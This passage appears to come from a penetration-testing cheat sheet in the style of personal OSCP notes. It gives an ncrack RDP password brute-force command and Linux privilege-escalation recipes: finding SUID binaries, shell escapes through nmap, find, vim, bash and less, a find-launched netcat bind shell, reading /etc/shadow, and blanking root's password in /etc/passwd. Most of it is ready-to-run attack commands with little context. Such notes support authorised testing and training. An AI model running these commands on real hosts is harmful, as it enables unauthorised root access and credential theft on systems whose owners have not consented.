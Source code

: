 ### ncrack
```
$ ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35
```
## Privilege Escalation
### Linux
#### enumrate
* get version
```
$ uname -a
$ cat /etc/*-release
```
* service
```
$ ps
```
#### SUID
SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. ex: /etc/passwd

##### Find suid file
```
$ find / -perm -u=s -type f 2>/dev/null
```
##### Famous priv esc entry
* nmap
```
$ nmap --interactive
$ nmap> !sh
```
* find
```
$ touch pentestlab
$ find pentestlab -exec whoami \;
$ find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
```
* vim
```
$ vim.tiny /etc/shadow
# Press ESC key
:set shell=/bin/sh
:shell
```
* bash
```
$ bash -p
```
* less
```
$ less /etc/passwd
!/bin/sh
```
- others
https://gtfobins.github.io/#+suid
#### /ect/passwd rw permission
```
$ cp /etc/passwd /tmp
$ sed -i 's/root:x:0:0:root:\/root:\/bin\/bash/root::0:0:root:\/root:\/bin\/bash/g' /tmp/passwd
$ cat /tmp/passwd > /etc/passwd
```
#### NFS weak permissions
The root_sqaush parameter prevents root access to remote root users connected to the NFS volume. If the "no_root_squash" option turns on then remote users get root permission.
